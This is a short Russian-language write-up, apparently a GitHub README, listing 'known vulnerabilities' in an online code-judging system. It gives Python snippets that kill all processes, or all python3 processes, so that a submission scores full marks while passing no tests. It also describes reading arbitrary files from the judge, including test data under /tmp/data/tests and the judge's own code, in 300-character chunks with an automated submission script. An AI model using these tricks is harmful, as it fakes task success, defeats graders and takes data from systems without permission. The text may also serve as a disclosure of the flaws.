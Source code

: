 # Известные уязвимости:

## Process kill:
- Набирает полный балл по любой задаче, при этом проходит 0 тестов.
```python
import psutil

for process in psutil.process_iter():
    process.kill()
```
Или
```python
import psutil

for process in psutil.process_iter():
    if process.name() == 'python3':
        process.kill()
```

## Доступ к файлам
- Идея: выгружать любой файл из тестирующей системы
- Максимальный вывод - 300 символов, приходится разбивать файл на "блоки" по 300 символов
- Чтобы не делать много посылок вручную, была написана программа, автоматизирующая процесс отправки и парсинга вердиктов

### Ограничения по отправкам
- Ограничения на одну одновременно тестирующуюся посылку - исключительно на сайте, реальное ограничение - не более 9ти одновременно тестирующихся посылок

### Тесты
- Тесты лежат в /tmp/data/tests/{номер теста} (/tmp/data/tests/001...)
Можно загружать небольшие тесты через:
```python
print(open('tmp/data/tests/001', 'r').read())
```

### Тестирующая система
- С помощью описанной выше технологии был выгружен код тестирующей системы
